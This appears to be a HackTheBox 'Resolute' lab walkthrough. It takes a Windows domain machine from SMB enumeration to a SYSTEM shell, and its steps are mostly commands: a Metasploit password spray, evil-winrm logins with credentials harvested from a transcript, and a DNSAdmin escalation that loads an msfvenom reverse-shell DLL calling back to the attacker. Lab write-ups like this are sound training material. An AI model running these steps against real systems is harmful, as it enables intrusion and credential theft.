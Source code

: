 ```yaml
---
title: "HackTheBox: Resolute | Walkthrough"
date: 2020-05-30
categories: [hackthebox]
tags: [windows, smb, evil-winrm, dnsadmin, hackthebox]
---
```


## Recon

Let’s start with an nmap scan:

```sh
nmap -A 10.10.10.169
````

Now enumerate SMB:

```sh
enum4linux 10.10.10.169 > enum
cat enum | grep "Account:"
```

You should see some accounts and some credentials.
Make a user list from it:

```sh
cat enum | grep "Account:" | cut -d " " -f8 > user_list
```

Now, try logging in with these accounts using Metasploit:

```sh
msfconsole
search smb_login
use auxiliary/scanner/smb/smb_login
show options
set RHOSTS 10.10.10.169
set SMBPass 'Welcome123!'
set USER_FILE ~/HTB/Resolute/user_list
run
```

You should see that it works for one user: **melanie**.

---

## User

Now, let’s use evil-winrm to get a shell.

```sh
cd ~/HTB/Resolute/
git clone https://github.com/Hackplayers/evil-winrm.git
cd evil-winrm/
```

Running it:

```sh
ruby evil-winrm.rb
```

It throws an error — we need dependencies.
Check the `Gemfile`:

```sh
cat Gemfile
gem install winrm winrm-fs colorize stringio
```

Now, try again:

```sh
ruby evil-winrm.rb
```

This time, it shows the help menu.
Connect to the machine:

```sh
ruby evil-winrm.rb -u melanie -p 'Welcome123!' -i 10.10.10.169
```

You should get a shell as Melanie.

Grab the user flag:

```sh
cd ..
type Desktop\user.txt
```

---

## User 2 (Ryan)

Exploring the system:

```sh
cd C:\
dir -h
cd PSTranscripts
dir -h
cd 20191203
type PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
```

Inside the PowerShell transcript, you should see credentials for **Ryan**.

Save them in a file for later:

```
Username: ryan
Password: Serv3rAdmin4cc123!
```

Now log in as Ryan:

```sh
ruby evil-winrm.rb -u ryan -p 'Serv3rAdmin4cc123!' -i 10.10.10.169
```

---

## Administrator

Check privileges:

```sh
whoami /all
```

We see that Ryan is a member of the **DNSAdmin** group.
This group can be abused for privilege escalation via DNS plugin DLL injection.

(For a more detailed write-up of this privesc, see my post: [Windows Privilege Escalation: DNSAdmin to DomainController](/windows-privilege-escalation-dnsadmin-to-domaincontroller/))

---

## Root

First, generate a malicious DLL payload:

```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.15.155 LPORT=4444 --platform=windows -f dll > ~/HTB/Resolute/share/plugin.dll
```

Start an SMB share to host the DLL:

```sh
cd /usr/share/doc/python3-impacket/examples
./smbserver.py SHARE ~/HTB/Resolute/share/
```

In another tab, set up a listener:

```sh
nc -nvlp 4444
```

Now, on the target Windows machine, configure DNS to load our malicious DLL:

```sh
dnscmd.exe Resolute.megabank.local /config /serverlevelplugindll \\10.10.15.155\share\plugin.dll
sc.exe stop dns
sc.exe start dns
```

At this point, you should get a reverse shell as **SYSTEM** in your listener.

Finally, grab the root flag:

```powershell
type C:\Users\Administrator\Desktop\root.txt
```

Congratulations, root!

